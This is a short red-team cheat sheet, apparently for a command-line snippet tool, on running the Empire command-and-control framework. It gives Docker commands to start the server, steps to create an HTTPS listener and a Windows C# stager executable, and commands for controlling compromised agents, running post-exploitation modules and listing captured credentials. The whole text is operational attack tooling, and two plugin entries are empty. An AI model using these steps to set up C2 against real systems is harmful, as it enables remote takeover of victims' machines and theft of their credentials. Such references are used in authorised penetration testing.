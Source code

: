 # empire server

% empire, windows, c2
#plateform/linux #target/remote  #cat/C2

## server - pull latest image
```bash
docker pull bcsecurity/empire:latest
```

## server - start
```bash
docker run -it -p 1337:1337 -p 5000:5000 -p 0.0.0.0:<empire_listener_port>:<empire_listener_port> --name empire-server bcsecurity/empire:latest
```

## server - start (persistent storage)
```bash
docker create -v <empire_storage_path> --name data bcsecurity/empire:latest && docker run -it -p 1337:1337 -p 5000:5000  -p 0.0.0.0:<empire_listener_port>:<empire_listener_port> --volumes-from data bcsecurity/empire:latest
```



## client - start
```bash
empire-client --config ~/.empire-client.yaml
```

## listerner - create https listener
```bash
uselistener http
set Name <empire_listener_name>
set Host https://<local_ip>
set Port <empire_listener_port> 
set CertPath /empire/server/data
execute
main
```

## listerner - list 
```bash
listeners
```

## listerner - kill
```bash
kill <empire_listener_name>
```

## stager - create csharp
```bash
usestager windows_csharp_exe
set DotNetVersion net35
set Listener <empire_listener_name>
execute
```

## agent - interact
```bash
interact <agent_name>
```

## agent - rename
```bash
rename <old_agent_name> <new_agent_name>
```

## module - library
```bash
https://www.infosecmatter.com/empire-module-library/
```

## module - use
```bash
usemodule <empire_module_name>
set Agent <empire_agent_name>
options
execute
```



## credentials - list
```bash
credentials
```


## plugins - chiselserver
```bash
```

## plugins - socksproxyserver
```bash
```


